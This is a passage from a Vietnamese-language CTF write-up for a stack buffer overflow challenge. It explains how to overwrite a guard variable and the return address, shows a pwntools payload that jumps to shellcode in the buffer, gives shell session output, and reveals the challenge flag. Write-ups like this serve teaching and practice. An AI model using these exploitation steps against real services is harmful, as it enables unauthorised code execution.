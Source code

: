 ### Đầu tiên mình sẽ lấp đầy 40 bytes của stack bằng các ký tự "A" tiếp theo mình phải ghì đè 2 byte từ $rbp -0x2 = 0xe4ff bởi vè nếu có 1 giá trị khác chương trình sẽ gọi hàm exit() và ngay lập tức sẽ ngắt chương trình khi câu lệnh return còn chưa được thực thi. 8 bytes tiếp theo chính là giá trị ghì đè $rbp, 8 bytes tiếp theo là giá trị return address mình sẽ điều hướng nó quay trở lại hàm main 1 lần nữa.
### Có 1 lưu ý khi quay trở lại hàm main:
```
push rbp
mov rbp, rsp
``` 
Đây là 2 câu lệnh luôn phải có khi bắt đầu một hàm , nhưng nếu quay lại từ đây thì giá trị của rbp sẽ bị thay đổi vì vậy ta phải quay  về ở một địa chỉ cao hơn trong main để tránh 2 lệnh này. Mình sẽ cho quay lại tại địa chỉ ``` main =   0x0040067b #mov word [var_2h], 0xe4ff```
```
    bss_addr -= 0x30 # quay lai dinh cua buffer
    payload = shellcode
    payload += 'A'*13
    payload += p64(v5)
    payload += p64(bss_addr+0x30) # ebp  -> 1 gia tri bat ky
    payload += p64(bss_addr) # ret_ addr -> tro ve dinh stack
    p.sendline(payload)
 ```
### Ở payload thứ 2 thì đầu tiên mình sẽ đưa shellcode vào sau đó lấp đầy nhưng bytes kia bằng 1 ký tự bất kỳ sao cho đủ 40 bytes. 8 bytes tiếp theo để ta ghì đè biến v5 tại $rbp-0x2 để chương trình không chạy vào exit. 8 bytes tiếp theo là $rbp lúc này ta có thể nhập tùy ý. 8 bytes tiếp theo là địa chỉ return address ta sẽ ghì đè nó bằng địa chỉ $rbp-0x30 (đầu của buffer)
```
[+] Opening connection to challs.xmas.htsp.ro on port 2000: Done
[*] Switching to interactive mode
Nice. Hope you haven't been naughty
$ id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
$ cat /home/ctf/flag.txt
X-MAS{sant4_w1ll_f0rg1ve_y0u_th1s_y3ar}
[*] Got EOF while reading in interactive
$
```
Code khai thác: [echall.py](https://github.com/19520611/Writeup/blob/main/xmasCTF/src/naughty/echall.py)
> flag: X-MAS{sant4_w1ll_f0rg1ve_y0u_th1s_y3ar}
# Challenge Name: ![screenshot](https://github.com/19520611/Writeup/blob/main/xmasCTF/img/ready1.PNG)
